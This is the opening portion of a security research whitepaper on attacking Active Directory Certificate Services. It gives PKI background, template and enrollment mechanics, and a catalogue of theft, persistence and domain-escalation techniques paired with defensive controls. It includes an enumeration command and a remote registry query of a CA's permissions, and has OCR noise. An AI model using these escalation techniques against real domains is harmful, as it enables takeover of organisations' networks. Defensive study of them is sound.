# Certified Pre-Owned

Abusing Active Directory Certificate Services

Will Schroeder Lee Christensen

Version 1.0.1

# Revision Summary

| Date | Version | Description |
| --- | --- | --- |
| 2021-06-22 | 1.0.1 | Updated EKU details for ESC1 and ESC2. |
| 2021-06-17 | 1.0.0 | Initial release. |

#### TABLE OF CONTENTS

| ABSTRACT . |
| --- |
| INTRODUCTION . |
| PRIOR WORK . |
| BACKGROUND . |
| CERTIFICATE TEMPLATES |
| CERTIFICATE ENROLLMENT |
| SUBIECT ALTERNATIVE NAMES AND AUTHENTICATION . |
| AD CS ENUMERATION. |
| AD CS TRADECRAFT . |
| CERTIFICATE THEFT |
| Account Persistence. |
| DOMAIN ESCALATION |
| DOMAN PERSISTENCE |
| PKI ARCHITECTURE FLAWS |
| LACK OF OFFLINE ROOT CA AND TIERED ARCHITECTURE. |
| UNPROTECTED SUBORDINATE CAS |
| BREAKING FOREST TRUSTS VIA AD CS . |
| DEFENSIVE GUIDANCE . |
| PREVENTIVE GUIDANCE… |
| DETECTIVE GUIDANCE |
| INCIDENT RESPONSE GUIDANCE |
| DEFENSIVE GAPS AND CHALLENGES |
| CONCLUSION . |
| ACKNOWLEDGEMENTS . |


# Abstract

Microsoft's Active Directory Public Key Infrastructure (PKI) implementation, known as Active Directory Certificate Services (AD CS), has largely flown under the radar of both the offensive and defensive communities. AD CS is widely deployed, and provides attackers opportunities for credential theft, machine persistence, domain escalation, and subtle domain persistence. We present relevant background on certificates in Active Directory, detail the abuse of AD CS through certificate theft and active malicious enrollments for user and machine persistence, discuss a set of common misconfigurations that can result in domain escalation, and explain a method for stealing a Certificate Authority's private key in order to forge new user/machine "golden" certificates. By bringing light to the security implications of AD CS, we hope to raise awareness for both attackers and defenders alike of the security issues surrounding this complex, widely deployed, and often misunderstood system.

# Introduction

Active Directory security has had a huge surge in interest over the last several years. While several aspects of Active Directory have received thorough attention from a security perspective, one area that has been relatively overlooked is Active Directory Certificate Services (AD CS). AD CS is Microsoft's PKI implementation that integrates with existing Active Directory forests, and provides everything from encrypting file systems, to digital signatures, to user authentication (a large focus of this paper), and more. While AD CS is not installed by default for Active Directory environments, from our experience it is widely deployed.

Our research began when with a single sentence in the Active Directory Technical Specification² (emphasis ours):

> In the case of DCs, the external authentication information that is used to validate the identity of the client making the bind request comes from the client certificate presented by the client durinq the SSL/TLS handshake that occurs in response to the client sending an LDAP_SERVER_START_TLS_OID extended operation.

This resulted in the question, "How does one use certificates to authenticate to LDAP?" which led us to learning about AD CS and how to perform certificate-based authentication. Further investigation led us down the rabbit hole of attempting to gain a holistic understanding of AD CS' components and their security implications.

This paper aims to be as comprehensive of a reference as possible on the possible attacks against AD CS, as well as defensive guidance on how to prevent and detect these types of abuses. We begin with the background needed to understand how AD CS works, including its integration with Active Directory authentication, and then move into various attacks and associated defenses. Specifically, we highlight certificate theft and malicious certificate enrollments for user and machine persistence, a set of common certificate template misconfigurations that result in domain escalation, and a method for stealing a Certificate Authority's (CA) private key (if it is not hardware protected) in order to forge certificates.

This paper briefly reviews AD CS, including its components and how the certificate enrollment process works. We discuss the storage of issued certificates and their associated private keys, including common file formats and how the Windows stores them. This includes information

about using Windows's Data Protection API (DPAPI) in conjunction with the Mimikatz² and SharpDPAPI3 toolsets to extract certificates and their private keys.

We discuss how attackers can leverage certain user and machine certificates to authenticate to Active Directory using multiple protocols, constituting a form of credential theft that the offensive industry has largely been unaware of until now. Furthermore, we examine how combining the theft of machine certificates in conjunction with Kerberos resource-based constrained delegation (RBCD)* can be used for reliable long term machine persistence.

Beyond the theft of existing certificates, we examine how attackers can request or renew certificates for users and computers, providing the same persistence approaches as mentioned above. While issuing requests has always been possible using GUI-based mmc.exe snap-ins and certreq.exe, a weaponized method that satisfied requirements while operating over a command and control (C2) channel has not existed. As a result, we built the Certify toolset to fill this gap, which we will be releasing approximately 45 days after this paper is released. Certify provides a wide range of audit and AD CS functionality that we discuss throughout this paper, including the ability to request new certificates for the currently authenticated user or computer.

We will then examine a set of common misconfigurations that we have seen in many environments. Since beginning this research, we have analyzed many networks for these AD CS misconfigurations. In nearly every network so far, AD privilege escalation was possible using one of these attacks, and low-privileged users (e.g., members of the "Domain Users" group) almost always had the ability to immediately compromise the Active Directory forest. We also discuss a variant that results from an enrollment CA misconfiguration, as well as a NTLM relay scenario to AD CS web enrollment endpoints.

We then move on to exploring is this statement from Microsoft's documentation5:

#### If the CA private key were compromised, the attacker could perform operations as the CA.

While this attack has been talked about from a theoretical perspective, we have not found definitive documentation on weaponization. We will show how to use both the SharpDPAPl and Mimikatz toolsets to extract a CA's private key if not hardware protected, and then use that key to forge certificates for any principal in the domain. Attackers can use these forged certificates to authenticate as any active user/computer in the domain, and these certificates cannot be revoked as long as the CA's certificate is still valid and trusted. We will discuss forging new

<sup>5</sup> 

certificates using a tool we built called ForgeCert§, which we will be releasing with Certify on the previously mentioned 45-day delayed schedule.

Finally, we discuss how some organizations do not follow Microsoft's guidance when it comes to architecting AD CS. Consequently, this results in much less secure and compromise-resilient AD CS infrastructure. We will also discuss how even when following Microsoft's guidance, attackers can possibly abuse shared PKI systems to break the AD forest trust boundary.

Much of the information in this paper exists sparsely scattered throughout the Internet, albeit often in somewhat theoretical forms. However, given the proliferation of AD CS, its core integration with Active Directory forests, and the access longevity it could provide to an attacker, it would be unwise to assume that AD CS has not been a target for advanced adversaries for years.

Due to the severity of the misconfigurations, our belief that these issues are likely widespread (backed by data from several networks we have analyzed), and the engineering effort involved in fixing them, we are refraining from releasing our weaponized toolsets until approximately 45 days after this whitepaper is published. Before then, we are releasing a PowerShell tool titled PSPKIAudit? that utilizes PKISolutions' PSPKI PowerShell module® to enumerate any misconfigured templates. If any are found, we recommend following steps in the "Defensive Guidance" section.

Due to the number of AD CS abuse techniques identified during our research, we decided to break each attack technique with an identifier so they can be easily correlated with associated defensive guidance at the end of this paper. These offensive technique IDs are used in the title of each section describing a technique, as well as in relevant defensive sections so controls can easily be mapped back to offensive techniques.

| Offensive Technique ID | Description |
| --- | --- |
| THEFT1 | Exporting certificates and their private keys using Window's Crypto APIs |
| THEFT2 | Extracting user certificates and private keys using DPAPI |

s://github.com/GhostPack/PSPK


| THEFT3 | Extracting machine certificates and private keys using DPAPI |
| --- | --- |
| THEFT4 | Theft of existing certificates via file/directory triage |
| THEFT5 | Using the Kerberos PKINIT protocol to retrieve an account's NTLM hash |
| PERSIST1 | Account persistence via requests for new authentication certificates for a |
|  | user |
| PERSIST2 | Account persistence via requests for new authentication certificates for a |
|  | computer |
| PERSIST3 | Account persistence via renewal of authentication certificates for a |
|  | user/computer |
| ESCJ | Domain escalation via No Issuance Requirements + Enrollable Client Authentication/Smart Card Logon OID templates + |
|  | CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT |
| ESC2 | Domain escalation via No Issuance Requirements + Enrollable Any Purpose |
|  | EKU or no EKU |
| ESC3 | Domain escalation via No Issuance Requirements + Certificate Request |
|  | Agent EKU + no enrollment agent restrictions |
| ESC4 | Domain escalation via misconfigured certificate template access control |
| ESCS | Domain escalation via vulnerable PKI AD Object Access Control |
| ESC6 | Domain escalation via the EDITF ATTRIBUTESUBJECTALTNAME2 setting on CAs + No Manager Approval + Enrollable Client Authentication/Smart Card |
|  | Logon OID templates |

| ESC7 | Vulnerable Certificate Authority Access Control |
| --- | --- |
| ESC8 | NTLM Relay to AD CS HTTP Endpoints |
| DPERSIST1 | Domain persistence via certificate forgery with stolen CA private keys |
| DPERSIST2 | Domain persistence via certificate forgery from maliciously added |
|  | root/intermediate/NTAuth CA certificates |
| DPERSIST3 | Domain persistence via malicious misconfigurations that can later cause a |
|  | domain escalation |

We also numbered the preventative (PREVENTX) and detective (DETECTX) controls for easier correlation. Appropriate IDs are at the end of each offensive technique section so attacks can also be easily forward mapped to their associated defensive controls.

| Defensive Technique ID | Description |
| --- | --- |
| PREVENT1 | Treat CAs as Tier 0 Assets |
| PREVENT2 | Harden CA settings |
| PREVENT3 | Audit Published templates |
| PREVENT4 | Harden Certificate Template Settings |
| PREVENT5 | Audit NtAuthCertificates |
| PREVENT6 | Secure Certificate Private Key Storage |
| PREVENT7 | Enforce Strict User Mappings |


| PREVENT8 | Harden AD CS HTTP Enrollment Endpoints |
| --- | --- |
| DETECT1 | Monitor User/Machine Certificate Enrollments |
| DETECT2 | Monitor Certificate Authentication Events |
| DETECT3 | Monitor Certificate Authority Backup Events |
| DETECT4 | Monitor Certificate Template Modifications |
| DETECT5 | Detecting Reading of DPAPI-Encrypted Keys |
| DETECT6 | Use Honey Credentials |
| DETECT7 | Miscellaneous |

# Prior Work

Benjamin Delpy³, as is often the case, was years ahead of us with his work on Mimikatz10 and Kekeo.14 As such is the case here as well, with him having added functionality to interact with AD CS back in 2016¹²:




His published material13 primarily discusses certificates in the context of smart card14 authentication and encrypted file systems15, but the astute learner can use the concepts he

<sup>2019/</sup>assets/doc/You%20(dis)liked%20mimikatz%20Wait%20for%20kekeo.pd

m%20mimikat%20to%20keke0%2C%20passing%20bv%20new%20Microsoft%20security%20technologies%20-%20Beniamin%20Delp

discusses to abuse all other forms of certificate tradecraft using Mimikatz and Kekeo. We will cover various aspects of Mimikatz and Kekeo functionality throughout this paper.

PKI Solutions has several excellent blog posts concerning PKI in AD¹6 that we studied as we were learning about AD CS. They also have a great PowerShell module, PSPK1²7, for querying and interacting with AD CS components. PKI solutions also recommended Brian Komar's book "Windows Server 2008 - PKI and Certificate Security18" which, while old, proved to still be a fantastic resource for understanding AD CS and PKI.

We also relied heavily on the following open technical specifications provided by Microsoft for background information and for details about AD CS:

- [MS-CERSOD]: Certificate Services Protocols Overview19 ●
- [MS-CRTD]: Certificate Templates Structure20 ●
- [MS-CSRA]: Certificate Services Remote Administration Protocol²1
- [MS-ICPR]: ICertPassage Remote Protocol22 ●
- [MS-WCCE]: Windows Client Certificate Enrollment Protocol²3 ●

Christoph Falta's GitHub repo24 covers some details on attacking certificate templates, including virtual smart cards as well as some ideas on ACL based abuses:

> If an attacker gains access (Write/Enroll or WriteDACL) to any template, it is possible to reconfigure that template to issue certificates for Smartcard Logon. The attacker can even enroll these certificate for any given user, since the setting that defines the CN of the certificate is controlled in the template.

CQURE release a post titled "The tale of Enhanced Key (mis)Usage²3" which covers some Subject Alternative Name abuses, including the EDITF ATTRIBUTESUBJECTALTNAME2 configuration option which we will dive into in this paper. They also detail some of the offensive implications of host certificate theft (emphasis ours):

When a user's workstation is compromised, the attacker can potentially steal certificates along with their private keys (unless additional protection is in a place like by Trusted Platform Module (TPM)). Then reimage of the workstation and resetting the user's password(s) is not enough because the attacker may still possess a valid user certificate which allows for network logon using the victim's identity.

In 2016, Keyfactor released a post titled "Hidden Dangers: Certificate Subject Alternative Names (SANs)26″ also detailing the dangers of EDITF ATTRIBUTESUBJECTALTNAME2.

@Elkement²7 released two posts, "Sizzle @ hackthebox – Unintended: Getting a Logon Smartcard for the Domain Admin!28" and "Impersonating a Windows Enterprise Admin with a Certificate: Kerberos PKINIT from Linux-3" detailing an unintended solution to a Hack The Box challenge involving certificate template abuse. The posts detail the misconfiguration that occurs when an is there the CT FLAG ENROLLEE SUPPLIES SUBJECT flag enabled. We will detail this misconfiguration as well as malicious template modification later in this paper.

As for how these types of template misconfigurations tend to happen, Carl Sörqvist wrote up a detailed, and plausible, scenario in 2020 titled "Supply in the Request Shenanigans30". Specifically, he covers how sysadmins without proper knowledge of the security implications of certificate template settings could accidentally configure a template capable of domain authentication that also allows an alternative subject name specification.

Ceri Coburn released an excellent post in 2020 on "Attacking Smart Card Based Active Directory Networks³4". In it they detail attacking smart cards (including smartcard pin theft) as well as how PKINIT works in AD. They also pushed a pull request32 for the Rubeus C# Kerberos abuse toolkit that implemented PKINIT certificate support. This work was a vital piece to the research in this paper, as it allows for ticket-granting-ticket (TGT) requests with certificates.

Brad Hill published a whitepaper titled "Weaknesses and Best Practices of Public Key Kerberos with Smart Cards33" which provided some good background on Kerberos/PKINIT from a security perspective.

Special thanks to Mark Gamache³4 for collaborating with us on parts of this work. He independently discovered many of these abuses, reached out to us, and brought many additional details to our attention while we were performing this research.

As always, we tried our best to cite the existing work out there that we came across, but we're sure we missed things. Much of what we are presenting here draws from and builds heavily on the above material, with some additional research and weaponization that we will cover.

<sup>4</sup> 

# Background

Microsoft defines Active Directory Certificate Services (AD CS) as, "…the server role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization. 35" Windows 2000 introduced this server role, allowing its deployment in one of two configurations: as a standalone certification authority (CA) or as an enterprise CA that integrates with AD. This paper will cover the Enterprise CA role as we see it commonly deployed in environments. PKI and AD CS are not simple systems, and while we are going to dive into some of its specifics, we want to start with an overview of what certificates are, the high-level components of AD CS, and how clients request certificates in AD CS environments.

A certificate is an X.509-formatted digitally signed document used for encryption, message signing, and/or authentication. A certificate typically has various fields, including some of the following:

- Subject The owner of the certificate. ●
- Public Key - Associates the Subject with a private key stored separately.
- NotBefore and NotAfter dates - Define the duration that the certificate is valid.
- Serial Number - An identifier for the certificate assigned by the CA.
- Issuer - Identifies who issued the certificate (commonly a CA).
- SubjectAlternativeName - Defines one or more alternate names that the Subject may go by.
- Basic Constraints - Identifies if the certificate is a CA or an end entity, and if there are any constraints when using the certificate.
- Extended Key Usages (EKUs) - Object identifiers (OIDs) that describe how the certificate will be used. Also known as Enhanced Key Usage in Microsoft parlance. Common EKU OIDs include:
	- o Code Signing (OID 1.3.6.1.5.5.7.3.3) The certificate is for signing executable code.
	- O Encrypting File System (OID 1.3.6.1.4.1.311.10.3.4) - The certificate is for encrypting file systems.
	- Secure Email (1.3.6.1.5.5.7.3.4) The certificate is for encrypting email. o
	- Client Authentication (OID 1.3.6.1.5.5.7.3.2) The certificate is for authentication o to another server (e.g., to AD).
	- Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2) The certificate is for use in smart O card authentication.

<sup>-2012-</sup>r2-and-2012/hh831740(v=ws.11)

- 0 Server Authentication (OID 1.3.6.1.5.5.7.3.1) The certificate is for identifying servers (e.g., HTTPS certificates).
- Signature Algorithm - Specifies the algorithm used to sign the certificate.
- Signature - The signature of the certificates body made using the issuer's (e.g., a CA's) private key.

The information included in a certificate binds an identity - the Subject - to the key pair. An application can then use the key pair in operations as proof of the identity of the user.

CAs are responsible for issuing certificates. Upon its creation, the CA first needs to create its own private-public key pair and certificate that it will use when issuing certificates. The CA generates its own root CA certificate by signing a new certificate using its private key (that is, the root CA certificate is self-signed). AD CS will set the certificate's Subject and Issuer fields to the CA's name,the Basic Constraints to Subject Type=CA,and the NotBefore/NotAfter fields to five years (by default). Hosts then add the root CA certificate to their trust store to build a trust relationship with the CA.

AD CS defines CA certificates the AD forest trusts in four locations under the container CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>, each differing by their purpose36:

- The Certification Authorities container defines trusted root CA certificates. These CAs are at the top of the PKI tree hierarchy and are the basis of trust in AD CS environments. Each CA is represented as an AD object inside the container where the objectClass is set to certificationAuthority and the cACertificate property contains the bytes of the CA's certificate. Windows propagates these CA certificates to the Trusted Root Certification Authorities certificate store on each Windows machine. For AD to consider a certificate as trusted, the certificate's trust chain must eventually end with one of the root CA's defined in this container.
- The Enrollment Services container defines each Enterprise CA (i.e., CAs created in AD CS ● with the Enterprise CA role enabled). Each Enterprise CA has an AD object with the following attributes:
	- o AnobjectClass attribute to pKIEnrollmentService
	- o A cACertificate attribute containing the bytes of the CA's certificate
	- A dNSHostName property sets the DNS host of the CA O

- O A certificateTemplates field defining the enabled certificate templates. Certificate templates are a "blueprint" of settings that the CA uses when creating a certificate, and include things such as the EKUs, enrollment permissions, the certificate's expiration, issuance requirements, and cryptography settings. We will discuss certificate templates more in detail later.
In AD environments, clients interact with Enterprise CAs to request a certificate based on the settings defined in a certificate template. Enterprise CA certificates are propagated to the Intermediate Certification Authorities certificate store on each Windows machine.

- The NTAuthCertificates AD object defines CA certificates that enable authentication to ● AD. This object has an objectClass of certificationAuthority and the object's cACertificate property defines an array of trusted CA certificates. AD-joined Windows machines propagate these CAs to the Intermediate Certification Authorities certificate store on each machine. Client applications can authenticate to AD using a certificate only if one the CAs defined by the NTAuthCertificates object has signed the authenticating client's certificate.
- The AIA (Authority Information Access) container holds the AD objects of intermediate and cross CAs. Intermediate CAs are "children" of root CAs in the PKI tree hierarchy; as such, this container exists to aid in validating certificate chains. Like the Certification Authorities container, each CA is represented as an AD object in the AIA container where the objectClass attribute is set to certificationAuthority and the cACertificate property contains the bytes of the CA's certificate. These CAs are propagated to the Intermediate Certification Authorities certificate store on each Windows machine.

PKI Solutions also has an article describing these containers.37 One can view the status of the certificates in these containers (and other AD-CS-related containers) by opening the pkiview.msc MMC snap-in, right clicking on the Enterprise PKI object, and clicking Manage AD Containers (Figure 1). Additionally, any LDAP browsing tool such as the adsiedit.msc or Idp.exe can view the raw information about these containers (Figure 2).





Viewing AD CS containers in adsiedit.msc

To obtain a certificate from AD CS, clients go through a process called enrollment. At a high level, during enrollment clients first find an Enterprise CA based on the objects in the Enrollment Services container discussed above. Clients then generate a public-private key pair and place the public key in a certificate signing request (CSR) message along with other details such as the subject of the certificate and the certificate template name. Clients then sign the CSR with their private key and send the CSR to an Enterprise CA server. The CA server checks if the client can request certificates. If so, it determines if it will issue a certificate by looking up the certificate template AD object specified in the CSR. The CA will check if the certificate template AD object's permissions allow the authenticating account to obtain a certificate. If so, the CA generates a certificate using the "blueprint" settings defined by the certificate template (e.g., EKUs, cryptography settings, and issuance requirements) and using the other information supplied in the CSR if allowed by the certificate's template settings. The CA signs the certificate using its private key and then returns it to the client.



Figure 3 - Overview of Certificate Enrollment

We will discuss the services AD CS exposes and the whole certificate enrollment process in more detail later.

Certificates issued by CAs can provide encryption (e.g., encrypting file svstem), digital signatures (e.g., code signing), and authentication (e.g., to AD). This paper will focus primarily on certificates that enable AD authentication, but keep in mind that attackers can abuse certificates beyond just authentication.

# Certificate Templates

AD CS Enterprise CAs issue certificates with settings defined by certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like "How long is this certificate valid for?", "What is the certificate used for?", "How is the subject specified?", "Who can request a certificate?", and a myriad of other settings. The following screenshot shows editing a certificate template via the Certificate Templates Console MMC snap-in certtmpl.msc:

| ExampleTemplate Properties |  |  | ? |
| --- | --- | --- | --- |
| Subject Name |  | Issuance Requirements |  |
| Superseded Templates | Extensions Security |  | Server |
| General Request Handling Compatibility |  | Cryptography | Key Attestation |
| Template display name: |  |  |  |
| Example Template |  |  |  |
| Template name: |  |  |  |
| Example Template |  |  |  |
| Validity period: | Renewal period: |  |  |
| years | 6 weeks |  |  |
| Publish certificate in Active Directory |  |  |  |
| Directory | o not automatically reenroll if a duplicate certificate exists in Active |  |  |

Figure 4 -Example Certificate Template Configuration in the Certificate Templates Console

AD CS stores available certificate templates as AD objects with an objectClass of pKICertificateTemplate located in the following container:

```
CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>
```
An AD certificate template object's attributes define its settings, and its security descriptor controls what principals can enroll in the certificate or edit the certificate template (more on this in the following "Enrollment Rights and Protocols" section).

The pKIExtendedKeyUsage38 attribute on an AD certificate template object contains an array of OIDs enabled in the template. These EKU OIDs affect what the certificate can be used for and include things like the Encrypting File System (OID 1.3.6.1.4.1.311.10.3.4), Code Signing (OID 1.3.6.1.5.5.7.3.3), Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2), Client Authentication (OID 1.3.6.1.5.5.7.3.2), and many more. PKI Solutions has a breakdown of the EKU OIDs available from Microsoft39.

Our research focused on EKUs that, when present in a certificate, permit authentication to AD. We originally thought that only the Client Authentication OID enabled this; however, our research also found that the following OIDs can enable certificate authentication:

| Description | OID |
| --- | --- |
| Client Authentication | 1.3.6.1.5.5.7.3.2 |
| PKINIT Client Authentication* | 1.3.6.1.5.2.3.4 |
| Smart Card Logon | 1.3.6.1.4.1.311.20.2.2 |
| Any Purpose | 2.5.29.37.0 |
| SubCA | (no EKUs) |

*The 1.3.6.1.5.2.3.4 OID is not present in AD CS deployments by default and needs to be added manually®, but it does work for client authentication41.

Before Windows Vista, smart cards appeared to have more strict certificate requirements, including requiring non-empty EKUs44. There is a GPO setting titled "Allow certificates with no extended key usage certificate attribute43" whose documentation makes it sound like you need to flip this switch to allow certificate authentication with the All Purpose EKU, Client Authentication EKU, or no EKU in modern environments. However, this is a client side setting only. The CQure Academy post on EKUs44 details an older description for this GPO that states that it affects which smart card-based certificates will show up on a logon screen, which matches the behavior we've seen. So regardless of this GPO value, the scenarios in the table above will allow such a certificate to authenticate to AD.

Sidenote: For the rest of this paper, when we mention "certificates that allow for authentication", we mean one of the five EKU scenarios in the above table.

44 

An additional EKU OID that we found we could abuse is the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1). Certificates with this OID can be used to request certificates on behalf of another user unless specific restrictions are put in place. We will dive more into this issue in the "Enrollment Agents, Authorized Signatures, and Application Policies" and "Misconfigured Enrollment Agent Templates - ESC3″ sections.

# Certificate Enrollment

# Enrollment Rights and Protocols

Users cannot necessarily obtain a certificate from every defined certificate template. IT administrators first create certificate templates and then an Enterprise CA "publishes" the template, making it available to clients to enroll in. Recall, AD CS registers Enterprise CAs in AD as objects with an objectClass of pKIEnrollmentService. AD CS specifies that a certificate template is enabled on an Enterprise CA by adding the template's name to the certificatetemplates field of the AD object:

| (objectclass=pKIEnrollmentService)' | PS C:\temp> Get-DomainObject -SearchBase "CN=Configuration,DC=theshire,DC=local" -LDAPFilter |
| --- | --- |
| certificatetemplates | : {ExampleTemplate, UserMod, DirectoryEmailReplication, |
|  | DomainControllerAuthentication ... } |
| II I ags | TU |
| distinguishedname | : CN=theshire-DC-CA,CN=Enrollment Services,CN=Public Key |
|  | Services. CN=Services. CN=Configuration. DC=theshire. DC=local |
| displayname | theshire-DC-CA |
| whenchanged | 3/9/2021 1:07:57 AM |
| objectc lass | top. pKIEnrol   mentService} |
| showinadvancedviewonly : True |  |
| usnchanged | : 741909 |
| dscorepropagationdata | = {3/9/2021 1:07:57 AM, 3/9/2021 1:07:54 AM, 3/9/2021 1:04:38 AM, |
|  | 1/28/2021 11:47:56 PM ... } |
| Iname | : theshire-DC-CA |
| dnshostname | : dc.theshire. local |
| usncreated | : 209004 |
| cacertificate | : {48, 130, 3, 111 ... } |
| cacertificatedn | CN=theshire-DC-CA. DC=theshire. DC=local |
| whencreated | 1/4/2021 6:58:02 PM |
| cn | : theshire-DC-CA |
| instancetype | 4 |
| objectguid | 97738343-6cf5-4641-9ea5-753d2d176ccf |
| objectcategory | CN=PKI-Enrollment-Service. CN=Schema.CN=Configuration.DC=theshire.D |
|  | C=local |

Showina Enabled Certificate Templates v

AD CS defines enrollment rights - which principals can request a certificate – using two security descriptors: one on the certificate template AD object and another on the Enterprise CA itself.

For certificate templates, the following ACEs in a template's DACL can result in a principal having enrollment rights:

- The ACE grants a principal the Certificate-Enrollment extended right. The raw ACE grants ● principal the RIGHT DS CONTROL ACCESS45 access right where the ObjectType® is set to 0e10c968-78fb-11d2-90d4-00c04f79dc5547. This GUID corresponds with the Certificate-Enrollment extended right.
- The ACE grants a principal the Certificate-AutoEnrollment extended right. The raw ACE ● grants principal the RIGHT DS CONTROL ACCESS48 access right where the ObjectType is set to a05b8cc2-17bc-4802-a710-e7c15ab866a249. This GUID corresponds with the Certificate-AutoEnrollment extended right.
- An ACE grants a principal all ExtendedRights. The raw ACE enables the ● RIGHT DS CONTROL ACCESS access right where the ObjectType is set to 00000000-0000-0000-0000-0000000000000. This GUID corresponds with all extended rights.
- An ACE grants a principal FullControl/GenericAll. The raw ACE enables the ● FullControl/GenericAll access right.



Figure 6 - The default "User" certificate template security descriptor granting Domain Users the Certificate-Enrollment extended right

IT administrators can configure certificate template permissions using the Certificate Template MMC snap-in certtmpl.msc by right clicking on a template, select Properties, and viewing the Security tab:

| ■ Certificate Templates Console |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| Action View Help File |  |  |  |  |  |
| m |  |  |  |  |  |
| Certificate Templates (CORPDC01.CORP.LOCAL) | Template Display Name |  |  | Schema Version | ( Version |
|  | User |  |  | 1 | 3.1 |
| User Properties | ? | × |  | 1 1 | 4.1 4.1 |
| General Request Handling Subject Name Extensions | Security |  | ication | 2 | 101.0 |
| Group or user names: |  |  |  |  | > |
| Authenticated Users |  |  |  |  |  |
| Domain Admins (CORP\Domain Admins) |  |  |  |  |  |
| Domain Users (CORP\Domain Users) |  |  |  |  |  |
| Enterprise Admins (CORP\Enterprise Admins) |  |  |  |  |  |
| Add ... | Remove |  |  |  |  |
| Pemissions for Domain Users | Allow Deny |  |  |  |  |
| Full Control |  |  |  |  |  |
| Read 0 |  |  |  |  |  |
| Write |  |  |  |  |  |
| Enroll |  |  |  |  |  |

Figure 7 - Template Enrollment Permissions via the GUI

An Enterprise CA defines enrollment rights using a security descriptor as well, superseding any enrollment rights defined by certificate templates. The security descriptor-0 configured on the Enterprise CA defines these rights and is viewable in the Certificate Authority MMC snap-in certsrv.msc by right clicking on the CA → Properties → Security:

|  | certsrv - [Certification Authority (Local)\CORP-CORPDC01-CA] |  |
| --- | --- | --- |
| File | View Help Action | ? × CORP-CORPDC01-CA Properties |
|  |  | Extensions Storage Certificate Managers |
|  | tification Authority (Local) | General Policy Module Exit Module |
|  | CORP-CORPDC01-CA | Auditing Recovery Agents Security Enrollment Agents |
|  | Revoked Certificates | Group or user names: |
|  | Issued Certificates | Authenticated Users |
|  | Pending Requests | Domain Admins (CORP\Domain Admins) |
|  | Failed Requests | Enterprise Admins (CORP\Enterprise Admins) |
|  | Certificate Templates | Administrators (CORP\Administrators) |
|  |  | Add ... Remove |
|  |  | Permissions for Authenticated Users Allow Deny |
|  |  | Read Issue and Manage Certificates |
|  |  | Manage CA |
|  |  | Request Certificates |

Figure 8 - CA that Grants "Authenticated Users" Request Certificates Rights

This ultimately ends up setting the Security registry value in the key HKLM\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<CA NAME> on the CA server. We have encountered several AD CS servers that grant low-privileged users remote access to this key via remote registry:

| C:\>whoami |
| --- |
| corp\lowpriv |
| C:\>reg query \\CORPDC01\HKLIN\SYSTEM\CurrentControlSet\Services\certsvc\Configuration\CORP-CORPDC01-CA /v Security |
| HKEY LOCAL MACHINE\SYSTEM\CurrentControlSet\Services\certsvc\Configuration\CORP-CORPDC01-CA |
| Security REG BINARY 0100148420010000300100001400000002003000020030000200000002C01400FFFF00000101 |
| のので、その他の問題があります。8000でののののではなかなかなかなかなか。2000/00/20072 |
| Figure 9 - Remoting Listing an Enterprise CA's Security Descriptor with req.exe |

Low-privileged users can also enumerate this via DCOM using the ICertAdminD2 COM interface's GetCASecurity method54. However, normal Windows clients need to install the Remote Server Administration Tools (RSAT) to use it since the COM interface and any COM objects that implement it are not present on Windows by default.

MS-CSRA 3.1.4.2.6 ICertAdminD2::GetCASecurity (Opnum 36) 

If both the Enterprise CA's and the certificate template's security descriptors grant the client certificate enrollment privileges, the client can then request a certificate. A client can request a certificate in different ways depending on the AD CS environment's configuration:

- 1. Using the Windows Client Certificate Enrollment Protocol5² (MS-WCCE), a set of Distributed Component Object Model (DCOM) interfaces that interact with various AD CS features including enrollment. The DCOM server is enabled on all AD CS servers by default and is the most common method by which we have seen clients request certificates.
- 2. Via the ICertPassage Remote Protocol53 (MS-ICPR), a remote procedure call (RPC) protocol can operate over named pipes or TCP/IP.
- 3. Accessing the certificate enrollment web interface. To use this, the ADCS server needs to have the Certificate Authority Web Enrollment role installed. Once enabled, a user can navigate to the IIS-hosted ASP web enrollment application running at 
- 4. Interacting with a certificate enrollment service (CES). To use this, a server needs to have the Certificate Enrollment Web Service role installed. Once enabled, a user can access the web service at  CES Kerberos/service.svc to request certificates. This service works in tandem with a certificate enrollment policy (CEP) service (installed via the Certificate Enrollment Policy Web Service role), which list clients use URL  Underneath, the certificate enrollment and policy web services implement MS-WSTEP54 and MS-XCEPগু, respectively (two SOAP-based protocols).
- 5. Using the network device enrollment service. To use this, a server needs to have the Network Device Enrollment Service® role installed, which allows clients (namely network devices) to obtain certificates via the Simple Certificate Enrollment Protocol (SCEP)». Once enabled, an administrator can obtain a one-time password (OTP) from the URL  admin/. The administrator can then provide the OTP to a network device and the device will use the SCEP to request a certificate using the URL 

On a Windows machine, users can request certificates using a GUI by launching certmgr.msc (for user certificates) or certlm.msc (for computer certificates), expanding the Personal certificate

57 httns://datatracker.ietf.org/doc/html/draft-nourse-scep-19

store → right clicking Certificates → All Tasks → Request New Certificate. This will present the user with certificate templates the Enterprise CA has published that they (or their system) can enroll in:

| Certificate Enrollment |  |  |  | × |
| --- | --- | --- | --- | --- |
| Request Certificates |  |  |  |  |
| You can request the following types of certificates. Select the certificates you want to request, and then |  |  |  |  |
| click Enroll. |  |  |  |  |
| ExampleTemplate |  | STATUS: Available |  | Details V |
| V User |  | STATUS: Available |  | Details ^ |
| The following options describe the uses and validity period that apply to this type of certificate: |  |  |  |  |
| Key usage: | Digital signature |  |  |  |
| Key encipherment |  |  |  |  |
| Application policies: | Encrypting File System |  |  |  |
| Secure Email |  |  |  |  |
| Client Authentication |  |  |  |  |
| Validity period (days): 365 |  |  |  |  |
|  |  |  | Properties |  |
| Show all templates |  |  |  |  |
|  |  |  | Enroll | Cancel |

Figure 10 - User Certificate Request through certmgr.msc

Upon clicking the Enroll button, Windows will request a certificate (by default, using a COM object that implements MS-WCCE) and the certificate will then appear under Personal → Certificates after a successful enrollment:

| certmgr - [Certificates - Current User\Personal\Certificates] |  |  |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| File Action View Help |  |  |  |  |  |  |  |  |
